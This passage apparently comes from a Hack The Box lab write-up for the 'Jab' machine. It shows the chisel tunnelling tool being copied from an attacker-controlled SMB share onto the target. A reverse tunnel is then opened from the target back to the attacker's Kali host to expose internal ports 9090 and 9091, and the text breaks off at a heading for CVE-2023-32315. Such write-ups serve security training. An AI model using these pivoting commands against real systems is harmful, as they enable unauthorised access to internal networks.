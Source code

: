 Now on the target machine, we can download chisel executable:

`copy \\10.10.14.29\share\chisel_windows.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-33.png)

Let's prepare Chisel server on our Kali machine and start Chisel client sessions from the target machine, tunneling both port **9090** and **9091**:

`.\chisel_windows.exe client 10.10.14.29:9999 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091`

We can see that tunneling session is made on Chisel server side:

`chisel server -p 9999 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-32.png)

We should be able to access the website from our local browser now.

### CVE-2023-32315

Let's access the website by going to `http://127.0.0.1:9090` on web browser:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-34.png)
